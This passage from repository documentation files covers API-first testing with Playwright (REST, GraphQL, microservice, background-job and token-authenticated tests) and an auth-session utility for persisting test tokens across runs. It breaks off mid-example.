- **Wrong abstraction**: Testing business logic through UI layers adds noise
- **Resource heavy**: Browsers consume memory and CPU

API-first testing provides:

- **Fast execution**: No browser startup, no rendering, no JavaScript execution
- **Direct validation**: Test exactly what the service returns
- **Better isolation**: Test service logic independent of UI
- **Easier debugging**: Clear request/response without DOM noise
- **Contract validation**: Verify API contracts explicitly

## When to Use API Tests vs E2E Tests

| Scenario                  | API Test      | E2E Test      |
| ------------------------- | ------------- | ------------- |
| CRUD operations           | ✅ Primary    | ❌ Overkill   |
| Business logic validation | ✅ Primary    | ❌ Overkill   |
| Error handling (4xx, 5xx) | ✅ Primary    | ⚠️ Supplement |
| Authentication flows      | ✅ Primary    | ⚠️ Supplement |
| Data transformation       | ✅ Primary    | ❌ Overkill   |
| User journeys             | ❌ Can't test | ✅ Primary    |
| Visual regression         | ❌ Can't test | ✅ Primary    |
| Cross-browser issues      | ❌ Can't test | ✅ Primary    |

**Rule of thumb**: If you're testing what the server returns (not how it looks), use API tests.

## Pattern Examples

### Example 1: Pure API Test (No Browser)

**Context**: Test REST API endpoints directly without any browser context.

**Implementation**:

```typescript
// tests/api/users.spec.ts
import { test, expect } from '@playwright/test';

// No page, no browser - just API
test.describe('Users API', () => {
  test('should create user', async ({ request }) => {
    const response = await request.post('/api/users', {
      data: {
        name: 'John Doe',
        email: 'john@example.com',
        role: 'user',
      },
    });

    expect(response.status()).toBe(201);

    const user = await response.json();
    expect(user.id).toBeDefined();
    expect(user.name).toBe('John Doe');
    expect(user.email).toBe('john@example.com');
  });

  test('should get user by ID', async ({ request }) => {
    // Create user first
    const createResponse = await request.post('/api/users', {
      data: { name: 'Jane Doe', email: 'jane@example.com' },
    });
    const { id } = await createResponse.json();

    // Get user
    const getResponse = await request.get(`/api/users/${id}`);
    expect(getResponse.status()).toBe(200);

    const user = await getResponse.json();
    expect(user.id).toBe(id);
    expect(user.name).toBe('Jane Doe');
  });

  test('should return 404 for non-existent user', async ({ request }) => {
    const response = await request.get('/api/users/non-existent-id');
    expect(response.status()).toBe(404);

    const error = await response.json();
    expect(error.code).toBe('USER_NOT_FOUND');
  });

  test('should validate required fields', async ({ request }) => {
    const response = await request.post('/api/users', {
      data: { name: 'Missing Email' }, // email is required
    });

    expect(response.status()).toBe(400);

    const error = await response.json();
    expect(error.code).toBe('VALIDATION_ERROR');
    expect(error.details).toContainEqual(expect.objectContaining({ field: 'email', message: expect.any(String) }));
  });
});
```

**Key Points**:

- No `page` fixture needed - only `request`
- Tests run without browser overhead
- Direct HTTP assertions
- Clear error handling tests

### Example 2: API Test with apiRequest Utility

**Context**: Use enhanced apiRequest for schema validation, retry, and type safety.

**Implementation**:

```typescript
// tests/api/orders.spec.ts
import { test, expect } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { z } from 'zod';

// Define schema for type safety and validation
const OrderSchema = z.object({
  id: z.string().uuid(),
  userId: z.string(),
  items: z.array(
    z.object({
      productId: z.string(),
      quantity: z.number().positive(),
      price: z.number().positive(),
    }),
  ),
  total: z.number().positive(),
  status: z.enum(['pending', 'processing', 'shipped', 'delivered']),
  createdAt: z.string().datetime(),
});

type Order = z.infer<typeof OrderSchema>;

test.describe('Orders API', () => {
  test('should create order with schema validation', async ({ apiRequest }) => {
    const { status, body } = await apiRequest<Order>({
      method: 'POST',
      path: '/api/orders',
      body: {
        userId: 'user-123',
        items: [
          { productId: 'prod-1', quantity: 2, price: 29.99 },
          { productId: 'prod-2', quantity: 1, price: 49.99 },
        ],
      },
      validateSchema: OrderSchema, // Validates response matches schema
    });

    expect(status).toBe(201);
    expect(body.id).toBeDefined();
    expect(body.status).toBe('pending');
    expect(body.total).toBe(109.97); // 2*29.99 + 49.99
  });

  test('should handle server errors with retry', async ({ apiRequest }) => {
    // apiRequest retries 5xx errors by default
    const { status, body } = await apiRequest({
      method: 'GET',
      path: '/api/orders/order-123',
      retryConfig: {
        maxRetries: 3,
        retryDelay: 1000,
      },
    });

    expect(status).toBe(200);
  });

  test('should list orders with pagination', async ({ apiRequest }) => {
    const { status, body } = await apiRequest<{ orders: Order[]; total: number; page: number }>({
      method: 'GET',
      path: '/api/orders',
      params: { page: 1, limit: 10, status: 'pending' },
    });

    expect(status).toBe(200);
    expect(body.orders).toHaveLength(10);
    expect(body.total).toBeGreaterThan(10);
    expect(body.page).toBe(1);
  });
});
```

**Key Points**:

- Zod schema for runtime validation AND TypeScript types
- `validateSchema` throws if response doesn't match
- Built-in retry for transient failures
- Type-safe `body` access
- **Note**: If your project uses code-generated operations from an OpenAPI spec, see [Example 8](#example-8-operation-based-api-testing-openapi--code-generators) for the preferred `operation`-based overload (v3.14.0+)

### Example 3: Microservice-to-Microservice Testing

**Context**: Test service interactions without browser - validate API contracts between services.

**Implementation**:

```typescript
// tests/api/service-integration.spec.ts
import { test, expect } from '@seontechnologies/playwright-utils/fixtures';

test.describe('Service Integration', () => {
  const USER_SERVICE_URL = process.env.USER_SERVICE_URL || 'http://localhost:3001';
  const ORDER_SERVICE_URL = process.env.ORDER_SERVICE_URL || 'http://localhost:3002';
  const INVENTORY_SERVICE_URL = process.env.INVENTORY_SERVICE_URL || 'http://localhost:3003';

  test('order service should validate user exists', async ({ apiRequest }) => {
    // Create user in user-service
    const { body: user } = await apiRequest({
      method: 'POST',
      path: '/api/users',
      baseUrl: USER_SERVICE_URL,
      body: { name: 'Test User', email: 'test@example.com' },
    });

    // Create order in order-service (should validate user via user-service)
    const { status, body: order } = await apiRequest({
      method: 'POST',
      path: '/api/orders',
      baseUrl: ORDER_SERVICE_URL,
      body: {
        userId: user.id,
        items: [{ productId: 'prod-1', quantity: 1 }],
      },
    });

    expect(status).toBe(201);
    expect(order.userId).toBe(user.id);
  });

  test('order service should reject invalid user', async ({ apiRequest }) => {
    const { status, body } = await apiRequest({
      method: 'POST',
      path: '/api/orders',
      baseUrl: ORDER_SERVICE_URL,
      body: {
        userId: 'non-existent-user',
        items: [{ productId: 'prod-1', quantity: 1 }],
      },
    });

    expect(status).toBe(400);
    expect(body.code).toBe('INVALID_USER');
  });

  test('order should decrease inventory', async ({ apiRequest, recurse }) => {
    // Get initial inventory
    const { body: initialInventory } = await apiRequest({
      method: 'GET',
      path: '/api/inventory/prod-1',
      baseUrl: INVENTORY_SERVICE_URL,
    });

    // Create order
    await apiRequest({
      method: 'POST',
      path: '/api/orders',
      baseUrl: ORDER_SERVICE_URL,
      body: {
        userId: 'user-123',
        items: [{ productId: 'prod-1', quantity: 2 }],
      },
    });

    // Poll for inventory update (eventual consistency)
    const { body: updatedInventory } = await recurse(
      () =>
        apiRequest({
          method: 'GET',
          path: '/api/inventory/prod-1',
          baseUrl: INVENTORY_SERVICE_URL,
        }),
      (response) => response.body.quantity === initialInventory.quantity - 2,
      { timeout: 10000, interval: 500 },
    );

    expect(updatedInventory.quantity).toBe(initialInventory.quantity - 2);
  });
});
```

**Key Points**:

- Multiple service URLs for microservice testing
- Tests service-to-service communication
- Uses `recurse` for eventual consistency
- No browser needed for full integration testing

### Example 4: GraphQL API Testing

**Context**: Test GraphQL endpoints with queries and mutations.

**Implementation**:

```typescript
// tests/api/graphql.spec.ts
import { test, expect } from '@seontechnologies/playwright-utils/api-request/fixtures';

const GRAPHQL_ENDPOINT = '/graphql';

test.describe('GraphQL API', () => {
  test('should query users', async ({ apiRequest }) => {
    const query = `
      query GetUsers($limit: Int) {
        users(limit: $limit) {
          id
          name
          email
          role
        }
      }
    `;

    const { status, body } = await apiRequest({
      method: 'POST',
      path: GRAPHQL_ENDPOINT,
      body: {
        query,
        variables: { limit: 10 },
      },
    });

    expect(status).toBe(200);
    expect(body.errors).toBeUndefined();
    expect(body.data.users).toHaveLength(10);
    expect(body.data.users[0]).toHaveProperty('id');
    expect(body.data.users[0]).toHaveProperty('name');
  });

  test('should create user via mutation', async ({ apiRequest }) => {
    const mutation = `
      mutation CreateUser($input: CreateUserInput!) {
        createUser(input: $input) {
          id
          name
          email
        }
      }
    `;

    const { status, body } = await apiRequest({
      method: 'POST',
      path: GRAPHQL_ENDPOINT,
      body: {
        query: mutation,
        variables: {
          input: {
            name: 'GraphQL User',
            email: 'graphql@example.com',
          },
        },
      },
    });

    expect(status).toBe(200);
    expect(body.errors).toBeUndefined();
    expect(body.data.createUser.id).toBeDefined();
    expect(body.data.createUser.name).toBe('GraphQL User');
  });

  test('should handle GraphQL errors', async ({ apiRequest }) => {
    const query = `
      query GetUser($id: ID!) {
        user(id: $id) {
          id
          name
        }
      }
    `;

    const { status, body } = await apiRequest({
      method: 'POST',
      path: GRAPHQL_ENDPOINT,
      body: {
        query,
        variables: { id: 'non-existent' },
      },
    });

    expect(status).toBe(200); // GraphQL returns 200 even for errors
    expect(body.errors).toBeDefined();
    expect(body.errors[0].message).toContain('not found');
    expect(body.data.user).toBeNull();
  });

  test('should handle validation errors', async ({ apiRequest }) => {
    const mutation = `
      mutation CreateUser($input: CreateUserInput!) {
        createUser(input: $input) {
          id
        }
      }
    `;

    const { status, body } = await apiRequest({
      method: 'POST',
      path: GRAPHQL_ENDPOINT,
      body: {
        query: mutation,
        variables: {
          input: {
            name: '', // Invalid: empty name
            email: 'invalid-email', // Invalid: bad format
          },
        },
      },
    });

    expect(status).toBe(200);
    expect(body.errors).toBeDefined();
    expect(body.errors[0].extensions.code).toBe('BAD_USER_INPUT');
  });
});
```

**Key Points**:

- GraphQL queries and mutations via POST
- Variables passed in request body
- GraphQL returns 200 even for errors (check `body.errors`)
- Test validation and business logic errors

### Example 5: Database Seeding and Cleanup via API

**Context**: Use API calls to set up and tear down test data without direct database access.

**Implementation**:

```typescript
// tests/api/with-data-setup.spec.ts
import { test, expect } from '@seontechnologies/playwright-utils/fixtures';

test.describe('Orders with Data Setup', () => {
  let testUser: { id: string; email: string };
  let testProducts: Array<{ id: string; name: string; price: number }>;

  test.beforeAll(async ({ request }) => {
    // Seed user via API
    const userResponse = await request.post('/api/users', {
      data: {
        name: 'Test User',
        email: `test-${Date.now()}@example.com`,
      },
    });
    testUser = await userResponse.json();

    // Seed products via API
    testProducts = [];
    for (const product of [
      { name: 'Widget A', price: 29.99 },
      { name: 'Widget B', price: 49.99 },
      { name: 'Widget C', price: 99.99 },
    ]) {
      const productResponse = await request.post('/api/products', {
        data: product,
      });
      testProducts.push(await productResponse.json());
    }
  });

  test.afterAll(async ({ request }) => {
    // Cleanup via API
    if (testUser?.id) {
      await request.delete(`/api/users/${testUser.id}`);
    }
    for (const product of testProducts) {
      await request.delete(`/api/products/${product.id}`);
    }
  });

  test('should create order with seeded data', async ({ apiRequest }) => {
    const { status, body } = await apiRequest({
      method: 'POST',
      path: '/api/orders',
      body: {
        userId: testUser.id,
        items: [
          { productId: testProducts[0].id, quantity: 2 },
          { productId: testProducts[1].id, quantity: 1 },
        ],
      },
    });

    expect(status).toBe(201);
    expect(body.userId).toBe(testUser.id);
    expect(body.items).toHaveLength(2);
    expect(body.total).toBe(2 * 29.99 + 49.99);
  });

  test('should list user orders', async ({ apiRequest }) => {
    // Create an order first
    await apiRequest({
      method: 'POST',
      path: '/api/orders',
      body: {
        userId: testUser.id,
        items: [{ productId: testProducts[2].id, quantity: 1 }],
      },
    });

    // List orders for user
    const { status, body } = await apiRequest({
      method: 'GET',
      path: '/api/orders',
      params: { userId: testUser.id },
    });

    expect(status).toBe(200);
    expect(body.orders.length).toBeGreaterThanOrEqual(1);
    expect(body.orders.every((o: any) => o.userId === testUser.id)).toBe(true);
  });
});
```

**Key Points**:

- `beforeAll`/`afterAll` for test data setup/cleanup
- API-based seeding (no direct DB access needed)
- Unique emails to prevent conflicts in parallel runs
- Cleanup after all tests complete

### Example 6: Background Job Testing with Recurse

**Context**: Test async operations like background jobs, webhooks, and eventual consistency.

**Implementation**:

```typescript
// tests/api/background-jobs.spec.ts
import { test, expect } from '@seontechnologies/playwright-utils/fixtures';

test.describe('Background Jobs', () => {
  test('should process export job', async ({ apiRequest, recurse }) => {
    // Trigger export job
    const { body: job } = await apiRequest({
      method: 'POST',
      path: '/api/exports',
      body: {
        type: 'users',
        format: 'csv',
        filters: { createdAfter: '2024-01-01' },
      },
    });

    expect(job.id).toBeDefined();
    expect(job.status).toBe('pending');

    // Poll until job completes
    const { body: completedJob } = await recurse(
      () => apiRequest({ method: 'GET', path: `/api/exports/${job.id}` }),
      (response) => response.body.status === 'completed',
      {
        timeout: 60000,
        interval: 2000,
        log: `Waiting for export job ${job.id} to complete`,
      },
    );

    expect(completedJob.status).toBe('completed');
    expect(completedJob.downloadUrl).toBeDefined();
    expect(completedJob.recordCount).toBeGreaterThan(0);
  });

  test('should handle job failure gracefully', async ({ apiRequest, recurse }) => {
    // Trigger job that will fail
    const { body: job } = await apiRequest({
      method: 'POST',
      path: '/api/exports',
      body: {
        type: 'invalid-type', // This will cause failure
        format: 'csv',
      },
    });

    // Poll until job fails
    const { body: failedJob } = await recurse(
      () => apiRequest({ method: 'GET', path: `/api/exports/${job.id}` }),
      (response) => ['completed', 'failed'].includes(response.body.status),
      { timeout: 30000 },
    );

    expect(failedJob.status).toBe('failed');
    expect(failedJob.error).toBeDefined();
    expect(failedJob.error.code).toBe('INVALID_EXPORT_TYPE');
  });

  test('should process webhook delivery', async ({ apiRequest, recurse }) => {
    // Trigger action that sends webhook
    const { body: order } = await apiRequest({
      method: 'POST',
      path: '/api/orders',
      body: {
        userId: 'user-123',
        items: [{ productId: 'prod-1', quantity: 1 }],
        webhookUrl: 'https://webhook.site/test-endpoint',
      },
    });

    // Poll for webhook delivery status
    const { body: webhookStatus } = await recurse(
      () => apiRequest({ method: 'GET', path: `/api/webhooks/order/${order.id}` }),
      (response) => response.body.delivered === true,
      { timeout: 30000, interval: 1000 },
    );

    expect(webhookStatus.delivered).toBe(true);
    expect(webhookStatus.deliveredAt).toBeDefined();
    expect(webhookStatus.responseStatus).toBe(200);
  });
});
```

**Key Points**:

- `recurse` for polling async operations
- Test both success and failure scenarios
- Configurable timeout and interval
- Log messages for debugging

### Example 7: Service Authentication (No Browser)

**Context**: Test authenticated API endpoints using tokens directly - no browser login needed.

**Implementation**:

```typescript
// tests/api/authenticated.spec.ts
import { test, expect } from '@seontechnologies/playwright-utils/fixtures';

test.describe('Authenticated API Tests', () => {
  let authToken: string;

  test.beforeAll(async ({ request }) => {
    // Get token via API (no browser!)
    const response = await request.post('/api/auth/login', {
      data: {
        email: process.env.TEST_USER_EMAIL,
        password: process.env.TEST_USER_PASSWORD,
      },
    });

    const { token } = await response.json();
    authToken = token;
  });

  test('should access protected endpoint with token', async ({ apiRequest }) => {
    const { status, body } = await apiRequest({
      method: 'GET',
      path: '/api/me',
      headers: {
        Authorization: `Bearer ${authToken}`,
      },
    });

    expect(status).toBe(200);
    expect(body.email).toBe(process.env.TEST_USER_EMAIL);
  });

  test('should reject request without token', async ({ apiRequest }) => {
    const { status, body } = await apiRequest({
      method: 'GET',
      path: '/api/me',
      // No Authorization header
    });

    expect(status).toBe(401);
    expect(body.code).toBe('UNAUTHORIZED');
  });

  test('should reject expired token', async ({ apiRequest }) => {
    const expiredToken = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...'; // Expired token

    const { status, body } = await apiRequest({
      method: 'GET',
      path: '/api/me',
      headers: {
        Authorization: `Bearer ${expiredToken}`,
      },
    });

    expect(status).toBe(401);
    expect(body.code).toBe('TOKEN_EXPIRED');
  });

  test('should handle role-based access', async ({ apiRequest }) => {
    // User token (non-admin)
    const { status } = await apiRequest({
      method: 'GET',
      path: '/api/admin/users',
      headers: {
        Authorization: `Bearer ${authToken}`,
      },
    });

    expect(status).toBe(403); // Forbidden for non-admin
  });
});
```

**Key Points**:

- Token obtained via API login (no browser)
- Token reused across all tests in describe block
- Test auth, expired tokens, and RBAC
- Pure API testing without UI

### Example 8: Operation-Based API Testing (OpenAPI / Code Generators)

**Context**: When your project uses code-generated operation definitions from an OpenAPI spec, leverage the operation-based overload of `apiRequest` (v3.14.0+) instead of manual `method`/`path` extraction. This eliminates `typeof` assertions and provides full type inference for request body, response, and query parameters.

**Implementation**:

```typescript
// tests/api/operations.spec.ts
import { test, expect } from '@seontechnologies/playwright-utils/api-request/fixtures';

test.describe('API Tests with Generated Operations', () => {
  test('should create entity with full type safety', async ({ apiRequest }) => {
    // Operation object from code generator — contains path, method, and type info
    const { status, body } = await apiRequest({
      operation: createEntityOp({ workspaceId }),
      headers: getHeaders(workspaceId),
      body: entityInput, // Compile-time typed from operation.request
    });

    expect(status).toBe(201);
    expect(body.id).toBeDefined(); // body typed from operation.response
  });

  test('should list with typed query parameters', async ({ apiRequest }) => {
    // query field replaces manual string concatenation
    const { body } = await apiRequest({
      operation: listEntitiesOp({ workspaceId }),
      headers: getHeaders(workspaceId),
      query: { page: 0, page_size: 10, status: 'active' },
    });

    expect(body.items).toHaveLength(10);
    expect(body.total).toBeGreaterThan(10);
  });

  test('should poll async operation until complete', async ({ apiRequest, recurse }) => {
    const { body: job } = await apiRequest({
      operation: startJobOp({ workspaceId }),
      headers: getHeaders(workspaceId),
      body: { type: 'export' },
    });

    await recurse(
      async () =>
        apiRequest({
          operation: getJobOp({ workspaceId, jobId: job.id }),
          headers: getHeaders(workspaceId),
        }),
      (res) => res.body.status === 'completed',
      { timeout: 60000, interval: 2000 },
    );
  });
});
```

**Key Points**:

- `operation` replaces `method` + `path` — mutually exclusive at compile time
- Types for body, response, and query all inferred from the operation definition
- Works with any code generator using structural typing (no imports from playwright-utils needed in generator)
- Composable with `recurse`, `validateSchema`, and all existing `apiRequest` features
- Preferred approach over `typeof operation.response` for generated operations

## API Test Configuration

### Playwright Config for API-Only Tests

```typescript
// playwright.config.ts
import { defineConfig } from '@playwright/test';

export default defineConfig({
  testDir: './tests/api',

  // No browser needed for API tests
  use: {
    baseURL: process.env.API_URL || 'http://localhost:3000',
    extraHTTPHeaders: {
      Accept: 'application/json',
      'Content-Type': 'application/json',
    },
  },

  // Faster without browser overhead
  timeout: 30000,

  // Run API tests in parallel
  workers: 4,
  fullyParallel: true,

  // No screenshots/traces needed for API tests
  reporter: [['html'], ['json', { outputFile: 'api-test-results.json' }]],
});
```

### Separate API Test Project

```typescript
// playwright.config.ts
export default defineConfig({
  projects: [
    {
      name: 'api',
      testDir: './tests/api',
      use: {
        baseURL: process.env.API_URL,
      },
    },
    {
      name: 'e2e',
      testDir: './tests/e2e',
      use: {
        baseURL: process.env.APP_URL,
        ...devices['Desktop Chrome'],
      },
    },
  ],
});
```

## Comparison: API Tests vs E2E Tests

| Aspect              | API Test               | E2E Test                    |
| ------------------- | ---------------------- | --------------------------- |
| **Speed**           | ~50-100ms per test     | ~2-10s per test             |
| **Stability**       | Very stable            | More flaky (UI timing)      |
| **Setup**           | Minimal                | Browser, context, page      |
| **Debugging**       | Clear request/response | DOM, screenshots, traces    |
| **Coverage**        | Service logic          | User experience             |
| **Parallelization** | Easy (stateless)       | Complex (browser resources) |
| **CI Cost**         | Low (no browser)       | High (browser containers)   |

## Related Fragments

- `api-request.md` - apiRequest utility details
- `recurse.md` - Polling patterns for async operations
- `auth-session.md` - Token management
- `contract-testing.md` - Pact contract testing
- `test-levels-framework.md` - When to use which test level
- `data-factories.md` - Test data setup patterns

## Anti-Patterns

**DON'T use E2E for API validation:**

```typescript
// Bad: Testing API through UI
test('validate user creation', async ({ page }) => {
  await page.goto('/admin/users');
  await page.fill('#name', 'John');
  await page.click('#submit');
  await expect(page.getByText('User created')).toBeVisible();
});
```

**DO test APIs directly:**

```typescript
// Good: Direct API test
test('validate user creation', async ({ apiRequest }) => {
  const { status, body } = await apiRequest({
    method: 'POST',
    path: '/api/users',
    body: { name: 'John' },
  });
  expect(status).toBe(201);
  expect(body.id).toBeDefined();
});
```

**DON'T ignore API tests because "E2E covers it":**

```typescript
// Bad thinking: "Our E2E tests create users, so API is tested"
// Reality: E2E tests one happy path; API tests cover edge cases
```

**DO have dedicated API test coverage:**

```typescript
// Good: Explicit API test suite
test.describe('Users API', () => {
  test('creates user', async ({ apiRequest }) => {
    /* ... */
  });
  test('handles duplicate email', async ({ apiRequest }) => {
    /* ... */
  });
  test('validates required fields', async ({ apiRequest }) => {
    /* ... */
  });
  test('handles malformed JSON', async ({ apiRequest }) => {
    /* ... */
  });
  test('rate limits requests', async ({ apiRequest }) => {
    /* ... */
  });
});
```
```

## File: `src/agents/bmad-tea/resources/knowledge/auth-session.md`
```markdown
# Auth Session Utility

## Principle

Persist authentication tokens to disk and reuse across test runs. Support multiple user identifiers, ephemeral authentication, and worker-specific accounts for parallel execution. Fetch tokens once, use everywhere. **Works for both API-only tests and browser tests.**

## Rationale

Playwright's built-in authentication works but has limitations:

- Re-authenticates for every test run (slow)
- Single user per project setup
- No token expiration handling
- Manual session management
- Complex setup for multi-user scenarios

The `auth-session` utility provides:

- **Token persistence**: Authenticate once, reuse across runs
- **Multi-user support**: Different user identifiers in same test suite
- **Ephemeral auth**: On-the-fly user authentication without disk persistence
- **Worker-specific accounts**: Parallel execution with isolated user accounts
- **Automatic token management**: Checks validity, renews if expired
- **Flexible provider pattern**: Adapt to any auth system (OAuth2, JWT, custom)
- **API-first design**: Get tokens for API tests without browser overhead

## Pattern Examples

### Example 1: Basic Auth Session Setup

**Context**: Configure global authentication that persists across test runs.

**Implementation**:

```typescript
// Step 1: Configure in global-setup.ts
import { authStorageInit, setAuthProvider, configureAuthSession, authGlobalInit } from '@seontechnologies/playwright-utils/auth-session';
import myCustomProvider from './auth/custom-auth-provider';

async function globalSetup() {
  // Ensure storage directories exist
  authStorageInit();

  // Configure storage path
  configureAuthSession({
    authStoragePath: process.cwd() + '/playwright/auth-sessions',
    debug: true,
  });

  // Set custom provider (HOW to authenticate)
  setAuthProvider(myCustomProvider);

  // Optional: pre-fetch token for default user
  await authGlobalInit();
}

export default globalSetup;

// Step 2: Create auth fixture
import { test as base } from '@playwright/test';
import { createAuthFixtures, setAuthProvider } from '@seontechnologies/playwright-utils/auth-session';
import myCustomProvider from './custom-auth-provider';

// Register provider early
setAuthProvider(myCustomProvider);

export const test = base.extend(createAuthFixtures());

// Step 3: Use in tests
test('authenticated request', async ({ authToken, request }) => {
  const response = await request.get('/api/protected', {
    headers: { Authorization: `Bearer ${authToken}` },
  });

  expect(response.ok()).toBeTruthy();
});
```

**Key Points**:

- Global setup runs once before all tests
- Token fetched once, reused across all tests
- Custom provider defines your auth mechanism
- Order matters: configure, then setProvider, then init

### Example 2: Multi-User Authentication

**Context**: Testing with different user roles (admin, regular user, guest) in same test suite.

**Implementation**:

```typescript
import { test } from '../support/auth/auth-fixture';

// Option 1: Per-test user override
test('admin actions', async ({ authToken, authOptions }) => {
  // Override default user
  authOptions.userIdentifier = 'admin';

  const { authToken: adminToken } = await test.step('Get admin token', async () => {
    return { authToken }; // Re-fetches with new identifier
  });

  // Use admin token
  const response = await request.get('/api/admin/users', {
    headers: { Authorization: `Bearer ${adminToken}` },
  });
});

// Option 2: Parallel execution with different users
test.describe.parallel('multi-user tests', () => {
  test('user 1 actions', async ({ authToken }) => {
    // Uses default user (e.g., 'user1')
  });

  test('user 2 actions', async ({ authToken, authOptions }) => {
    authOptions.userIdentifier = 'user2';
    // Uses different token for user2
  });
});
```

**Key Points**:

- Override `authOptions.userIdentifier` per test
- Tokens cached separately per user identifier
- Parallel tests isolated with different users
- Worker-specific accounts possible

### Example 3: Ephemeral User Authentication

**Context**: Create temporary test users that don't persist to disk (e.g., testing user creation flow).

**Implementation**:

```typescript
import { applyUserCookiesToBrowserContext } from '@seontechnologies/playwright-utils/auth-session';
import { createTestUser } from '../utils/user-factory';

test('ephemeral user test', async ({ context, page }) => {
  // Create temporary user (not persisted)
  const ephemeralUser = await createTestUser({
    role: 'admin',
    permissions: ['delete-users'],
  });

  // Apply auth directly to browser context
  await applyUserCookiesToBrowserContext(context, ephemeralUser);

  // Page now authenticated as ephemeral user
  await page.goto('/admin/users');

  await expect(page.getByTestId('delete-user-btn')).toBeVisible();

  // User and token cleaned up after test
});
```

**Key Points**:

- No disk persistence (ephemeral)
- Apply cookies directly to context
- Useful for testing user lifecycle
- Clean up automatic when test ends

### Example 4: Testing Multiple Users in Single Test

**Context**: Testing interactions between users (messaging, sharing, collaboration features).

**Implementation**:

```typescript
test('user interaction', async ({ browser }) => {
  // User 1 context
  const user1Context = await browser.newContext({
    storageState: './auth-sessions/local/user1/storage-state.json',
  });
  const user1Page = await user1Context.newPage();

  // User 2 context
  const user2Context = await browser.newContext({
    storageState: './auth-sessions/local/user2/storage-state.json',
  });
  const user2Page = await user2Context.newPage();

  // User 1 sends message
  await user1Page.goto('/messages');
  await user1Page.fill('#message', 'Hello from user 1');
  await user1Page.click('#send');

  // User 2 receives message
  await user2Page.goto('/messages');
  await expect(user2Page.getByText('Hello from user 1')).toBeVisible();

  // Cleanup
  await user1Context.close();
  await user2Context.close();
});
```

**Key Points**:

- Each user has separate browser context
- Reference storage state files directly
- Test real-time interactions
- Clean up contexts after test

### Example 5: Worker-Specific Accounts (Parallel Testing)

**Context**: Running tests in parallel with isolated user accounts per worker to avoid conflicts.

**Implementation**:

```typescript
// playwright.config.ts
export default defineConfig({
  workers: 4, // 4 parallel workers
  use: {
    // Each worker uses different user
    storageState: async ({}, use, testInfo) => {
      const workerIndex = testInfo.workerIndex;
      const userIdentifier = `worker-${workerIndex}`;

      await use(`./auth-sessions/local/${userIdentifier}/storage-state.json`);
    },
  },
});

// Tests run in parallel, each worker with its own user
test('parallel test 1', async ({ page }) => {
  // Worker 0 uses worker-0 account
  await page.goto('/dashboard');
});

test('parallel test 2', async ({ page }) => {
  // Worker 1 uses worker-1 account
  await page.goto('/dashboard');
});
```

**Key Points**:

- Each worker has isolated user account
- No conflicts in parallel execution
- Token management automatic per worker
- Scales to any number of workers

### Example 6: Pure API Authentication (No Browser)

**Context**: Get auth tokens for API-only tests using auth-session disk persistence.

**Implementation**:

```typescript
// Step 1: Create API-only auth provider (no browser needed)
// playwright/support/api-auth-provider.ts
import { type AuthProvider } from '@seontechnologies/playwright-utils/auth-session';

const apiAuthProvider: AuthProvider = {
  getEnvironment: (options) => options.environment || 'local',
  getUserIdentifier: (options) => options.userIdentifier || 'api-user',

  extractToken: (storageState) => {
    // Token stored in localStorage format for disk persistence
    const tokenEntry = storageState.origins?.[0]?.localStorage?.find((item) => item.name === 'auth_token');
    return tokenEntry?.value;
  },

  isTokenExpired: (storageState) => {
    const expiryEntry = storageState.origins?.[0]?.localStorage?.find((item) => item.name === 'token_expiry');
    if (!expiryEntry) return true;
    return Date.now() > parseInt(expiryEntry.value, 10);
  },

  manageAuthToken: async (request, options) => {
    const email = process.env.TEST_USER_EMAIL;
    const password = process.env.TEST_USER_PASSWORD;

    if (!email || !password) {
      throw new Error('TEST_USER_EMAIL and TEST_USER_PASSWORD must be set');
    }

    // Pure API login - no browser!
    const response = await request.post('/api/auth/login', {
      data: { email, password },
    });

    if (!response.ok()) {
      throw new Error(`Auth failed: ${response.status()}`);
    }

    const { token, expiresIn } = await response.json();
    const expiryTime = Date.now() + expiresIn * 1000;

    // Return storage state format for disk persistence
    return {
      cookies: [],
      origins: [
        {
          origin: process.env.API_BASE_URL || 'http://localhost:3000',
          localStorage: [
            { name: 'auth_token', value: token },
            { name: 'token_expiry', value: String(expiryTime) },
          ],
        },
      ],
    };
  },
};

export default apiAuthProvider;

// Step 2: Create auth fixture
// playwright/support/fixtures.ts
import { test as base } from '@playwright/test';
import { createAuthFixtures, setAuthProvider } from '@seontechnologies/playwright-utils/auth-session';
import apiAuthProvider from './api-auth-provider';

setAuthProvider(apiAuthProvider);

export const test = base.extend(createAuthFixtures());

// Step 3: Use in tests - token persisted to disk!
// tests/api/authenticated-api.spec.ts
import { test } from '../support/fixtures';
import { expect } from '@playwright/test';

test('should access protected endpoint', async ({ authToken, apiRequest }) => {
  // authToken is automatically loaded from disk or fetched if expired
  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/me',
    headers: { Authorization: `Bearer ${authToken}` },
  });

  expect(status).toBe(200);
});

test('should create resource with auth', async ({ authToken, apiRequest }) => {
  const { status, body } = await apiRequest({
    method: 'POST',
    path: '/api/orders',
    headers: { Authorization: `Bearer ${authToken}` },
    body: { items: [{ productId: 'prod-1', quantity: 2 }] },
  });

  expect(status).toBe(201);
  expect(body.id).toBeDefined();
});
```

**Key Points**:

- Token persisted to disk (not in-memory) - survives test reruns
- Provider fetches token once, reuses until expired
- Pure API authentication - no browser context needed
- `authToken` fixture handles disk read/write automatically
- Environment variables validated with clear error message

### Example 7: Service-to-Service Authentication

**Context**: Test microservice authentication patterns (API keys, service tokens) with proper environment validation.

**Implementation**:

```typescript
// tests/api/service-auth.spec.ts
import { test as base, expect } from '@playwright/test';
import { test as apiFixture } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { mergeTests } from '@playwright/test';

// Validate environment variables at module load
const SERVICE_API_KEY = process.env.SERVICE_API_KEY;
const INTERNAL_SERVICE_URL = process.env.INTERNAL_SERVICE_URL;

if (!SERVICE_API_KEY) {
  throw new Error('SERVICE_API_KEY environment variable is required');
}
if (!INTERNAL_SERVICE_URL) {
  throw new Error('INTERNAL_SERVICE_URL environment variable is required');
}

const test = mergeTests(base, apiFixture);

test.describe('Service-to-Service Auth', () => {
  test('should authenticate with API key', async ({ apiRequest }) => {
    const { status, body } = await apiRequest({
      method: 'GET',
      path: '/internal/health',
      baseUrl: INTERNAL_SERVICE_URL,
      headers: { 'X-API-Key': SERVICE_API_KEY },
    });

    expect(status).toBe(200);
    expect(body.status).toBe('healthy');
  });

  test('should reject invalid API key', async ({ apiRequest }) => {
    const { status, body } = await apiRequest({
      method: 'GET',
      path: '/internal/health',
      baseUrl: INTERNAL_SERVICE_URL,
